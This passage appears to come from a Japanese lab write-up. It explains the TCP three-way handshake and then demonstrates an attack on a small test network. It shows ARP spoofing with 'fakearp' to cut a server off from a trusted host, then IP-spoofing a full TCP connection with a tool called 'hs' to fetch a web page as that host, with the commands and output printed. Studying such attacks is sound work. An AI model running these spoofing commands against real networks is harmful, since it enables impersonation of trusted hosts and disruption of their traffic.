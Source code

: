 　クライアントはシーケンス番号に1000を設定して接続要求を出しています。こ
れに応答するサーバーはシーケンス番号に5000を設定して、確認応答番号にクラ
イアントの設定したシーケンス番号に1を足した1001を設定して応答します。最後
にクライアントはサーバーの設定した確認応答番号ををシーケンス番号に、シー
ケンス番号に1を足した5001を確認応答番号に設定して、パケットを送信します。
このパケットをサーバーが受け取った時点でコネクションが確立します。このよ
うに3段階に渡ってやり取りを行うため、「3ウェイ・ハンドシェーク」や「3ステ
ップ・ハンドシェーク」などと呼ばれます。

　実験に使用するネットワークの構成は次のようなものです。

攻撃者<Linux>
[192.168.64.3]-------------------[HUB]
                                  | |
                                  | |      HTTPサーバー<NetBSD>
[192.168.64.5]--------------------+ +------[192.168.64.4]
偽装されるホスト<Windows NT>

　192.168.64.4では、HTTPサーバーとしてApacheが動作しており、トップページ
のindex.htmlには次のような内容のファイルを用意しました。

```html
<html>
ヽ(´ー\`)ノ＜よっ！成功かい？
</html>
```

　まず、192.168.64.4へARPスプーフィングを実行して192.168.64.5との通信を不
能にしておきます。このコマンドを実行すると、HTTPサーバーは192.168.64.5と
通信が出来なくなります。

```
[r00t@192.168.64.3]\# fakearp 192.168.64.4 -spa 192.168.64.5 -shw 00:fe:7f:1c:86:fa -i eth1
```

　次にIPスプーフィングを実行して、サーバーへの接続・トップページの取得を
試みます。
　勿論、実際に接続する事はありません。偽の接続です。

```
[r00t@192.168.64.3]\# ./hs http://192.168.64.4/ -s 192.168.64.5
phase 1 - Send SYN to 192.168.64.4 (seq 0x42e7ffd5 ack 0x0)... Success
phase 2 - Recv ACK from 192.168.64.4... Success (seq 0x779c8f1e ack 0x42e7ffd6)
phase 3 - Send ACK to 192.168.64.4 (seq 0x42e7ffd6 ack 0x779c8f1f)... Success
phase 4 - Send GET to 192.168.64.4 (seq 0x42e7ffd6 ack 0x779c8f1f)... Success
HTTP/1.1 200 OK
Date: Thu, 02 Oct 2003 07:40:40 GMT
Server: Apache/1.3.27 (Unix)
Last-Modified: Wed, 01 Oct 2003 16:46:11 GMT
ETag: "7cf4e-2d-3f7b04d3"
Accept-Ranges: bytes
Content-Length: 45
Connection: close
Content-Type: text/html

<html>
ヽ(´ー\`)ノ＜よっ！成功かい？
</html>

phase 5 - recved FIN
phase 6 - Final, send ACK|FIN to 192.168.64.4... Success
```
